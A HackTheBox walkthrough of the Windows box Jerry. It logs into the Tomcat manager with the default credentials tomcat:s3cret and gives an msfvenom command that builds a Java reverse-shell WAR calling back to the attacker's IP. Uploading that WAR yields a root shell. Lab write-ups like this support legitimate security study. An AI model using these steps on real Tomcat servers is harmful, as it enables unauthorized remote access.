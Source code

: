 ```yaml
---
layout: post
title: HackTheBox&#58; Jerry
description: Writeup for HTB box Jerry.
category: HackTheBox
---
```


### Introduction

Jerry is a Windows box, difficulty Easy on HTB.

The box is very easy.
There is an Apache Tomcat running as root.
We can get root shell directly by finding default credentials for manager panel then upload the jsp reverse shell.

### Initial Scan

![Jerry-1](/resources/Jerry-1.png)

### User and Root: Apache Tomcat

We see the only open port is port 8080 running Apache Tomcat (I guess that explains the name of the box).
Going to the page we see default landing page of Apache Tomcat version 7.0.88.

Checking Manager App button on the front page, we are presented with a login prompt.
Trying default credential such as admin:admin does not work and we are seeing a 403 Access Denied page.
![Jerry-2](/resources/Jerry-2.png)

Here we can see instructions for admin to add authorized accounts.
The default credential here is `tomcat:s3cret`.
Login again with this credential and we get access to Tomcat Web Application Manager.
![Jerry-3](/resources/Jerry-3.png)

We can see a section "WAR file to deploy", which allows us to upload file in `.war` format.
Basically the Tomcat is written in Java and can serve `.jsp` file.
`.war` is essentially zipped java file.

We can generate a reverse shell in `.war` format using `msfvenom`.
``` bash
msfvenom --payload java/shell_reverse_tcp lhost=10.10.14.25 lport=1337 --format war > shell.war
```

Then we just need to upload `shell.war` file and browse to 10.10.10.95:8000/shell to trigger the payload.
![Jerry-4](/resources/Jerry-4.png)

We get a root shell and can read both user.txt and root.txt.
